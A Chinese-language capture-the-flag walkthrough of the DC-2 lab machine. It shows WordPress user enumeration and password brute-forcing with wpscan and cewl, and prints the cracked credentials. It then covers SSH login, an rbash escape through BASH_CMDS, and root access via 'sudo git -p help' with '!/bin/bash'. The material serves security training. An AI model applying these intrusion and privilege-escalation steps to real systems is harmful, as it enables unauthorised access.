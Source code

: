 # DC2靶机实战

> 扫描端口

![image-20240916120903636](./assets/image-20240916120903636.png)

![image-20240916144153528](./assets/image-20240916144153528.png)

- 发现开了`80端口`和`7744端口`,优先看80端口

![image-20240916120950882](./assets/image-20240916120950882.png)

- 发现无法解析`域名`

> 添加到host

```cmd
//找到该路径下的hosts文件,添加 ip + 域名
C:\Windows\System32\drivers\etc\hosts
```

![image-20240916123403982](./assets/image-20240916123403982.png)

- 重新进入网页,获取第一个`flag`
- ![image-20240916123457883](./assets/image-20240916123457883.png)

> 爆破web目录

- 二话不说,直接爆破web路径

![image-20240916125059654](./assets/image-20240916125059654.png)

- 一个一个点进去看,发现有个`http://dc-2/wp-admin/install.php`会跳转到一个登录框`http://dc-2/wp-login.php`

![image-20240916125201414](./assets/image-20240916125201414.png)

> 爆破账号密码登录

```cmd
//枚举用户
 wpscan --url http://dc-2 --enumerate u
```

![image-20240916135832100](./assets/image-20240916135832100.png)

- 可能存在这三个用户(`tom`,`admin`,`jerry`),写入字典爆破看看

- ```cmd
  //使用该命令生成密码本
  cewl -o http://dc-2/
  ```

  ![image-20240916142801583](./assets/image-20240916142801583.png)

  ![image-20240916144327728](./assets/image-20240916144327728.png)

```cmd
//爆破出账户
jetty adipiscing
tom parturient
```

- 在`jerry`的`all page`找到了`flag2`

![image-20240916143747190](./assets/image-20240916143747190.png)

> 尝试爆破ssh(7744)

![image-20240916145548423](./assets/image-20240916145548423.png)

```cmd
//连接ssh
ssh tom@192.168.234.111
parturient	
```

![image-20240916145740808](./assets/image-20240916145740808.png)

- 发现`flag3.txt`但是没办法查看,有`rbash`限制

- 查看哪些`命令`可用
- ![image-20240916150145791](./assets/image-20240916150145791.png)

- 那么这里使用`vi flag3.txt`查看
- ![image-20240916151808109](./assets/image-20240916151808109.png)

- 这里特意区`百度`了一下(新手上路)

- 这句话是一个带有幽默感的双关语，结合了经典的卡通角色Tom和Jerry的名字以及一个常见的计算机命令的用法。

  - **Tom and Jerry** 是一个经典的动画片，其中Tom（猫）总是追逐Jerry（鼠标）。这是一个熟悉的卡通情节，Tom永远在追逐Jerry。

  - **su** 是 Unix/Linux 系统中的一个命令，用于切换用户身份（"su" 是 "substitute user" 的缩写）。通常用于在命令行中以另一用户的身份执行命令。

  在这句话中，"Perhaps he should su for all the stress he causes" 既可以理解为对Tom角色的幽默调侃，也有一种计算机方面的双关：

  1. **字面意义：** 这里的"su"可以被理解为“应该换成其他用户来应对所有的压力”，这是一个对Tom压力的幽默描述。

  2. **技术双关：** 在计算机领域，"su" 是一个命令，Tom在这里被戏称为“应该使用 `su` 命令`切换用户`”，即换成其他用户来处理他所面临的压力或任务。

  整体上，这句话利用了Tom和Jerry的幽默和技术术语的双关，增添了一种轻松和有趣的风格。

```bash
//查看用户信息
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
Debian-exim:x:104:109::/var/spool/exim4:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
statd:x:106:65534::/var/lib/nfs:/bin/false
sshd:x:107:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:108:114:MySQL Server,,,:/nonexistent:/bin/false
tom:x:1001:1001:Tom Cat,,,:/home/tom:/bin/rbash
jerry:x:1002:1002:Jerry Mouse,,,:/home/jerry:/bin/bash
"/etc/passwd" [readonly] 29 lines, 1547 characters
```

- 发现`jeryy`是存在的,只是需要`rbash 逃逸`登录(jerry:x:1002:1002:Jerry Mouse,,,:/home/jerry:/bin/bash)

> rabash 逃逸

```bash
tom@DC-2:~$ echo $PATH
/home/tom/usr/bin
tom@DC-2:~$ echo /home/tom/usr/bin
/home/tom/usr/bin
tom@DC-2:~$ echo /home/tom/usr/bin/*
/home/tom/usr/bin/less /home/tom/usr/bin/ls /home/tom/usr/bin/scp /home/tom/usr/bin/vi
tom@DC-2:~$ BASH_CMDS[a]=/bin/bash
tom@DC-2:~$ a
tom@DC-2:~$ /bin/bash
tom@DC-2:~$ export PATH=PATH:/sbin:/bin
tom@DC-2:~$ echo $PATH
PATH:/sbin:/bin
```

![image-20240916153202759](./assets/image-20240916153202759.png)

- 切换`用户`

![image-20240916153308653](./assets/image-20240916153308653.png)

- 查看`flag4.txt`
- ![image-20240916153419611](./assets/image-20240916153419611.png)

```bash
这段话是一个典型的计算机安全挑战或解谜活动中的提示信息。它带有一些俏皮和鼓励的语气，通常用来激励参与者继续努力完成任务。下面是对这段话的逐步解析：

1. "Good to see that you've made it this far - but you're not home yet."
   - 意思是你已经在这个任务中取得了一些进展，但还没有完成最终目标。这里的“home”指的是完成任务或达到目标。

2. "You still need to get the final flag (the only flag that really counts!!!)."
   - 你还需要获取最后一个“flag”。在安全挑战中，"flag" 通常指代一个特定的标志或密钥，证明你已经成功完成了某项任务或解谜。这个“flag”是任务中最重要的一个，意味着最终的胜利或成功。

3. "No hints here - you're on your own now. :-)"
   - 这句话告诉你，接下来的部分没有提示或帮助，你需要依靠自己的努力来完成剩下的任务。微笑符号表示这是一种友好的提醒，而不是一种压力。

4. "Go on - git outta here!!!!"
   - 这句有双重含义：
     - **字面意思：“git outta here”是“离开这里”的俚语，鼓励你去完成任务。
     - **技术双关: "git" 是一个流行的版本控制系统，这里可能是一个有意的双关用语，暗示你可能需要使用 `git` 相关的命令或技巧来解决问题。

总结来说，这段话是在激励你继续努力完成最后的任务，利用一些幽默和技术术语来增加趣味性。
```

![image-20240916153628105](./assets/image-20240916153628105.png)

```bash
sudo git -p help

!/bin/bash
```

- 到这里打开一个用户为`root`的shell

- 查找flag,`find / -name "*flag*"`

![image-20240916154112161](./assets/image-20240916154112161.png)